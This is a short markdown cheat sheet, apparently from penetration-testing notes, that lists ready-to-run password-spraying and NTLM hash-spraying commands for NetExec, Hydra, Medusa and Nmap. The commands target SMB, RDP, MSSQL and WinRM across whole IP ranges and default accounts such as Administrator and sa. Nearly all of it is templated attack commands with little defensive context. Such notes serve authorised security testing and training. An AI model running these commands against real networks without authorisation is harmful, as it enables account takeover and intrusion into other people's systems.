 # Unix Shell

Search Tag(s): #password-spraying

TODO: Add more knowledge to Linux for password reuse

## 01 - SMB

### 1.1 - NetExec

Password spraying.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec smb <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec smb <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 1.2 - Hydra

```
$ hydra -L users.lst -p "<password>" -M ip_targets.txt smb
```

### 1.3 - Medusa

```
$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smb

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M smbnt
```

### 1.4 - Nmap

```
$ nmap -p 445 -Pn -n --script smb-brute --script-args "userdb=users.lst,passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>

$ nmap -p 445 -Pn -n --script smb-brute --script-args "smbusername='Administrator',passdb=passwords.lst" [--script-args smbtype=<version>] <IP>/<CIDR>
```

## 02 - RDP

### 2.1 - NetExec

Password spraying

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

Password/NTLM hash spraying without bruteforce.

```
$ netexec rdp <IP>/<CIDR> -u users.lst -p passwords.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]

$ netexec rdp <IP>/<CIDR> -u users.lst -H hashes.lst [-d <domain> | --local-auth] --no-bruteforce [--continue-on-success]
```

### 2.2 - Hydra

```
$ hydra -l Administrator -p "<password>" -M ip_targets.txt rdp

$ hydra -L users.lst -p "<password>" -M ip_targets.txt rdp
```

### 2.3 - Medusa

```
$ medusa -H ip_targets.txt -u Administrator -p "<password>" -M rdp

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M rdp
```

## 03 - MSSQL

### 3.1 - NetExec

```
$ netexec mssql <IP>/<CIDR> -u sa -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec mssql <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

### 3.2 - Hydra

```
$ hydra -l sa -p "<password>" -M ip_targets.lst mssql

$ hydra -L users.lst -p "<password>" -M ip_targets.lst mssql
```

### 3.3 - Medusa

```
$ medusa -H ip_targets.txt -u sa -p "<password>" -M mssql

$ medusa -H ip_targets.txt -U users.lst -p "<password>" -M mssql
```

## 04 - WinRM

### 4.1 - NetExec

```
$ netexec winrm <IP>/<CIDR> -u Administrator -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]

$ netexec winrm <IP>/<CIDR> -u users.lst -p "<password>" [-d <domain> | --local-auth] [--continue-on-success]
```

---
## References

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)